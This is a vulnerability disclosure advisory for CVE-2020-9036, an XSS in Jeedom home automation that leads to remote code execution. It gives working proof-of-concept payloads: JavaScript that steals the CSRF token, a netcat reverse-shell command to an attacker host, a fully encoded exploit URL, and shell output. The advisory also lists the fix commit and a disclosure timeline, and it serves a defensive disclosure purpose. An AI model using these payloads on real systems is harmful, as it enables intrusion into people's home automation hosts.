


# [CVE-2020-9036] Jeedom XSS leading to Remote Code Execution

## Description

Jeedom is a home automation solution used in IoT.

We discovered an XSS (cross-site-scripting) injection that can lead to a remote code execution.

**Threat**

The Jeedom application does not handle user input correctly, allowing client-side JavaScript code injection (XSS).

In this case, the vulnerability could be used to remotely execute commands against the system hosting the application.


**Expectation**

User input / output should be filtered to avoid arbitrary web code injection.


## Vulnerability records

**CVE ID**: CVE-2020-9036

**Access Vector**: remote

**Security Risk**: high

**Vulnerability**: CWE-80

**CVSS Base Score**: 8.8

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H


## Details

We identified a reflected cross-site scripting injection (XSS).

Moreover, an integrated feature could be used to execute commands against the system, but it requires an anti-CSRF token and valid session cookies.

To achieve this exploitation path, we built a JavaScript payload for the XSS that:

* fetch the anti-CSRF token from the body of another page by making an HTTP request ;
* send commands for execution within another HTTP request, along with the anti-CSRF token.

## Proof of Concept 1 : Simple XSS to execute alert function

Here is the affected URL, with a simple JavaScript payload that executes the alert function:

`http://URL/index.php?v=d&p=%22;alert(1);%22`

The insecure PHP code follows. Note how the user input is added without filtering to the HTML output:

```
try {
			if ( init('p') != 'message' && !isset($_GET['configure']) && !isset($_GET['modal']) ) {
				$title = pageTitle(init('p')) . ' - ' . config::byKey('product_name');
				echo '<script>';
				echo 'document.title = "' . $title . '"';
				echo '</script>';
			}
		}
```

Here is the result, including the injected payload in the HTTP response body:

```
$ curl -v "http://URL/index.php?v=d&p=%22;alert(1);%22" |grep alert

<script>document.title = "";alert(1);" - Jeedom"</script>
```




## Proof of Concept 2 : XSS to Remote Code Execution

The authenticated web functionality used to execute code against the system requires valid session cookies and anti-CSRF token.

We can use the following payload to fetch the anti-CSRF token:

```
var x = new XMLHttpRequest();
x.open("GET","/index.php?v=d&p=administration",false);
x.send(null);
t = x.responseText.split("JEEDOM_AJAX_TOKEN='")[1].split("';")[0]
```

We added some code to request it using the HTTP POST method, using the previously intercepted token:

```
var x = new XMLHttpRequest();
x.open("POST", "/core/ajax/jeedom.ajax.php", true);
x.setRequestHeader("Content-Type", "application/x-www-form-urlencoded;");
p = "jeedom_token=" + t + "&action=ssh&command=" + "nc ATTACKER_IP 4444 -e /bin/bash";
x.send(p);
```

After encoding and joining both parts, we obtain a URL like this:

`http://URL/index.php?v=d&p=%22%3b%76%61%72%20%78%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%78%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%2f%69%6e%64%65%78%2e%70%68%70%3f%76%3d%64%26%70%3d%61%64%6d%69%6e%69%73%74%72%61%74%69%6f%6e%22%2c%66%61%6c%73%65%29%3b%0a%20%20%20%20%20%20%78%2e%73%65%6e%64%28%6e%75%6c%6c%29%3b%0a%20%20%20%20%20%20%74%20%3d%20%78%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%2e%73%70%6c%69%74%28%22%4a%45%45%44%4f%4d%5f%41%4a%41%58%5f%54%4f%4b%45%4e%3d%27%22%29%5b%31%5d%2e%73%70%6c%69%74%28%22%27%3b%22%29%5b%30%5d%0a%20%20%20%20%20%20%76%61%72%20%78%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%0a%20%20%20%20%20%20%78%2e%6f%70%65%6e%28%22%50%4f%53%54%22%2c%20%22%2f%63%6f%72%65%2f%61%6a%61%78%2f%6a%65%65%64%6f%6d%2e%61%6a%61%78%2e%70%68%70%22%2c%20%74%72%75%65%29%3b%0a%20%20%20%20%20%20%78%2e%73%65%74%52%65%71%75%65%73%74%48%65%61%64%65%72%28%22%43%6f%6e%74%65%6e%74%2d%54%79%70%65%22%2c%20%22%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%3b%22%29%3b%0a%20%20%20%20%20%20%70%20%3d%20%22%6a%65%65%64%6f%6d%5f%74%6f%6b%65%6e%3d%22%20%2b%20%74%20%2b%20%22%26%61%63%74%69%6f%6e%3d%73%73%68%26%63%6f%6d%6d%61%6e%64%3d%22%20%2b%20%22%6e%63%20%31%39%32%2e%31%36%38%2e%31%2e%38%36%20%34%34%34%34%20%2d%65%20%2f%62%69%6e%2f%62%61%73%68%22%3b%0a%20%20%20%20%20%20%78%2e%73%65%6e%64%28%70%29%3b%3b%22`


If an authenticated victim visits the previous URL address, the attacker gets a reverse shell, as shown below:

```
$ nc -lvp 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.1.86.
Ncat: Connection from 192.168.1.86:49391.
python -c "import pty;pty.spawn('/bin/bash')"
www-data@debian:/var/www/html/core/ajax$ whoami
whoami
www-data
```




## Affected versions

* Jeedom version <= 4.0.38

## Solution

* Update to commit: fafe84cb9bbd491a931748e7b4fe7d2851877a33 (https://github.com/jeedom/core/commit/fafe84cb9bbd491a931748e7b4fe7d2851877a33)
* Install from the git master branch https://github.com/jeedom/core


## Timeline (dd/mm/yyyy)

* 2020-01-31 Initial discovery.
* 2020-02-07 Contacting Jeedom security team.
* 2020-02-07 Jeedom acknowledgement stating that the report is under review.
* 2020-02-18 XSS fix published (commit fafe84cb9bbd491a931748e7b4fe7d2851877a33).
* 2020-08-05 Disclosure.


## Credits

* Mickael KARATEKIN <mickael.karatekin -at- tnpconsultants.com>
